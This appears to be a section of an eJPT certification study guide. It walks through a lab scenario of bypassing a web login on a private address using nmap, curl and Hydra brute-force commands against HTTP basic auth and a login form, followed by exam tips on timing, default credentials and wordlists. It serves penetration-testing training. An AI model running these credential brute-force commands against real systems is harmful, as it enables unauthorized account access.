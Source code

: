 #### **Scenario 3: Web Application Authentication Bypass**
**Given:** Web application with login form (192.168.1.200)
**Your Job:** Bypass authentication using Hydra
**Time Limit:** 10-12 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Identify web service (2 minutes)
nmap -p 80,443 -sV 192.168.1.200
curl -I http://192.168.1.200
# Check web server type and version

# Step 2: Test HTTP basic auth (3 minutes)
hydra -l admin -P passwords.txt 192.168.1.200 http-get /admin
hydra -l admin -P passwords.txt 192.168.1.200 http-get /manager
# Common protected directories

# Step 3: Form-based attack if needed (5 minutes)
# First, analyze login form
curl http://192.168.1.200/login
# Then configure form attack
hydra 192.168.1.200 http-post-form "/login:user=^USER^&pass=^PASS^:Invalid" -L users.txt -P passwords.txt

# Step 4: Verify web access (1 minute)
curl -u found_user:found_pass http://192.168.1.200/admin
# Test discovered credentials
```

### **📝 eJPT Exam Tips:**

#### **⏰ Time Management Strategy:**
- **1-2 minutes:** Service discovery and version identification
- **2-3 minutes:** Common credential testing (manual attempts)
- **4-5 minutes:** Comprehensive wordlist attacks
- **1-2 minutes:** Credential verification and access testing
- **Remaining time:** Objective completion and documentation

#### **🎯 Common Mistakes to Avoid:**
1. **Skipping Manual Tests** → Always try common credentials first (admin:admin, etc.)
2. **Wrong Service Syntax** → Remember: ftp, ssh, http-get, http-post-form
3. **Too Many Threads** → Use -t 4 to 16, higher numbers can crash services
4. **Forgetting Verification** → Always test found credentials actually work
5. **Poor Wordlist Choice** → Use appropriate lists (unix_passwords.txt for Linux)

#### **✅ Signs You're Doing Well:**
- **Quick Service Discovery** → FTP/SSH/HTTP identified within 2 minutes
- **Successful Authentication** → Finding valid credentials consistently
- **Proper Verification** → Testing credentials provide real access
- **Time Management** → Completing objectives within time limits
- **Clean Documentation** → Recording all found credentials properly
